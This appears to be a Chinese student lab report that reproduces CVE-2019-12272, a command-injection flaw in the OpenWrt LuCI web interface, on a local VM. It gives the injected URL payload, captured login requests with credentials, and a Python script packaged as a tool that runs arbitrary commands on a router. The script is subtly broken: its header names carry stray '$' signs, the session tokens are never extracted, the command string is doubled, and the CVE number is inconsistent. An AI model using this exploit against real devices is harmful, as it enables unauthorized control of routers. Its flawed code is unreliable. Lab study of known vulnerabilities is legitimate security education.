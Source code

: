 # 实验四 移动通信安全概述
- [实验四 移动通信安全概述](#实验四-移动通信安全概述)
  - [实验环境](#实验环境)
  - [实验流程](#实验流程)
    - [CVE-2019-1227漏洞环境安装](#cve-2019-1227漏洞环境安装)
    - [漏洞复现](#漏洞复现)
    - [漏洞利用](#漏洞利用)
      - [代码](#代码)
      - [关键参数的获取](#关键参数的获取)
      - [代码编写](#代码编写)
  - [参考](#参考)
## 实验环境

- Kali 2020.3
- WSL2 Ubuntu 20.04 Server
- OpenWrt 15.05.1

## 实验流程

### CVE-2019-1227漏洞环境安装

安装代码与[第一章实验代码](https://github.com/CUCCS/2021-mis-public-LyuLumos/blob/ch0x01/ch0x01/code/setup-vm.sh)相同，仅需更改 `OpenWrt版本号` 与 `下载地址`。使用 `WSL2` 运行。

![](imgs/install19051.png)

其余配置同 [第一章实验OpenWrt环境](https://github.com/CUCCS/2021-mis-public-LyuLumos/tree/ch0x01/ch0x01#openwrt%E8%99%9A%E6%8B%9F%E6%9C%BA%E7%9A%84%E5%AE%89%E8%A3%85)，非实验重点在此略过。

![](imgs/OpenWrt%20-%20LuCI.png)

### 漏洞复现

先使用管理员账号登录 LuCI ，再使用浏览器访问
`
http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)
`
触发漏洞，再访问 `http://192.168.189.189/cmd.txt` 获取上一步命令执行的结果。

![](imgs/OpenWrt%20-%20LuCI%20-%20cmdtxt.png)

### 漏洞利用

#### 代码
<!-- ```bash
find -name cmd.txt
rm ./www/cmd.txt
``` -->

通过 Chrome 浏览器开发者工具的 「Copy as curl」 功能，将漏洞复现请求复制为 `curl` 命令 ，然后通过第三方网站 将 `curl` 命令转换为 `Python requests` 代码 ，再稍加改动添加继续访问 `/cmd.txt` 并打印服务器响应，得到示例如下：

（我使用的浏览器为 `Microsoft Edge 90.0.818.62 (官方内部版本) (64 位)`，选择命令为 「Copy as cURL (bash)」）

```bash
curl 'http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=c0f9a58c63c6811f85d67df275511138' \
  --compressed \
  --insecure
```

![](imgs/copyCURL.png)

转换后的代码长这样：

```python
import requests

cookies = {
    'sysauth': 'c0f9a58c63c6811f85d67df275511138',
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```

#### 关键参数的获取

我们前文中 `stok`、`cookies[sysauth]`等参数都需要再模拟一次登录才能获取。我们使用 `Burp Suite` 进行抓包，使用「Copy as curl command」命令得到结果。

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 192.168.189.189' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.189.189/cgi-bin/luci' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 39' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    --data-binary $'luci_username=root&luci_password=123456' \
    $'http://192.168.189.189/cgi-bin/luci'
```

再以相同的方式在第三方网站中转换。

```python
import requests

headers = {
    '$Host': '192.168.189.189',
    '$User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
    '$Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    '$Accept-Language': 'en-US,en;q=0.5',
    '$Accept-Encoding': 'gzip, deflate',
    '$Referer': 'http://192.168.189.189/cgi-bin/luci',
    '$Content-Type': 'application/x-www-form-urlencoded',
    '$Content-Length': '39',
    '$Connection': 'close',
    '$Upgrade-Insecure-Requests': '1',
}

data = '$luci_username=root&luci_password=123456'

response = requests.post('$http://192.168.189.189/cgi-bin/luci', headers=headers, data=data, verify=False)
```

#### 代码编写

代码编写的核心思想就是使代码看起来「工具化」，减少硬编码。

```python
#!/usr/bin/env python

import argparse
import requests


class CVE_2019_12272:
    def __init__(self, args):
        self.host = args.host
        self.username = args.username
        self.password = args.password
        self.sysauth = ''
        self.stok = ''
        self.command = args.command

        self.headers = {
            '$Host': self.host,
            '$User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
            '$Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            '$Accept-Language': 'en-US,en;q=0.5',
            '$Accept-Encoding': 'gzip, deflate',
            '$Referer': 'http://{host}/cgi-bin/luci'.format(host=self.host),
            '$Content-Type': 'application/x-www-form-urlencoded',
            '$Content-Length': '39',
            '$Connection': 'close',
            '$Upgrade-Insecure-Requests': '1',
        }

    def login(self):
        data = '$luci_username={username}&luci_password={passwd}'.format(username=self.username, passwd=self.password)
        url = self.headers['$Referer']
        response = requests.post(url, headers=self.headers, data=data, verify=False)
        # print(response)

    def shell(self):
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(
            host=self.host, stok=self.stok, cmd=self.command)
        response = requests.get(url, headers=self.headers, cookies={'sysauth':self.sysauth}, verify=False)
        # print(response)

    def output(self):
        try:
            url = 'http://{host}/cmd.txt'.format(host=self.host)
            response = requests.get(url)
            print(response.content.decode())
        except:
            print("Error.")


def run():
    parser = argparse.ArgumentParser(description='只是为了看着高级点')
    requiredNames = parser.add_argument_group('Required Named Arguments')
    requiredNames.add_argument('-a', '--host', help='ip host', required=True)  # -h 被--help占用
    requiredNames.add_argument('-u', '--username', help='username', required=True)
    requiredNames.add_argument('-p', '--password', help='password', required=True)
    requiredNames.add_argument('-c', '--command', help='command', required=True)
    args = parser.parse_args()
    temp = CVE_2019_12272(args)
    temp.login()
    temp.shell()
    temp.output()


if __name__ == '__main__':
    run()
```

在命令行里面调用

```bash
# argparse会把传递给它的选项视作为字符串，所以某些参数不加引号也可以
python main.py -a 192.168.189.189 -u root -p 123456 -c 'ifconfig%3ecmd.txt'
```



## 参考

- [Python - argparse - 命令行选项、参数和子命令解析器](https://docs.python.org/zh-cn/3/library/argparse.html)